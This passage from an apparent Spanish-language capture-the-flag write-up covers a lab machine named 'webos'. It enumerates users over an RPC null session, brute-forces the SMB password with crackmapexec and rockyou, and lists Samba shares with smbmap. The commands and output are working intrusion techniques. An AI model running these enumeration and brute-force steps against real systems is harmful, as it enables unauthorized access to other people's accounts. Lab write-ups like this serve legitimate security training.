 Sí te das cuenta, no podremos ver el contenido de los archivos compartidos, pero podemos ver 2 directorios que son **webos** y **nobody**, posiblemente contengan algo que nos ayude.

Lo que necesitamos es un usuario y contraseña.

Como vimos en el escaneo que el **servicio RCP** está activo, podríamos tratar de entrar y enumerarlo.

Usemos una sesión nula primero:
```bash
rpcclient -U '' -N 192.168.100.10
rpcclient $>
```
Muy bien, funcionó.

Veamos qué usuarios existen:
```bash
rpcclient $> enumdomusers
user:[webos] rid:[0x3e8]
rpcclient $>
```
Solamente existe un usuario.

No encontraremos algo más en este servicio más que ese usuario.

Usémoslo para aplicar fuerza bruta con **crackmapexec**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="FuerzaBrutaEnumSamba">Aplicando Fuerza Bruta y Enumeración del Servicio Samba</h2>

Usaremos un filtro para que nos muestre solo un resultado válido:
```bash
crackmapexec smb 192.168.100.10 -u 'webos' -p /usr/share/wordlists/rockyou.txt | grep '[+]'
SMB              192.168.100.10 445    THEHACKERSLABS-WEBOS [+] THEHACKERSLABS-WEBOS\webos:geraldine
```
Tenemos la contraseña.

Ahora sí podemos enumerar los archivos compartidos con **smbmap**:
```bash
smbmap -H 192.168.100.10 -u 'webos' -p 'geraldine' --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 192.168.100.10:445	Name: webos.thl           	Status: NULL Session
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	webos                                             	READ ONLY	Archivo compartido en Samba
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.17.12-Debian)
[*] Closed 1 connections
```
Nuestro usuario puede ver dos directorios, pero el que nos interesa es el directorio **webos**.
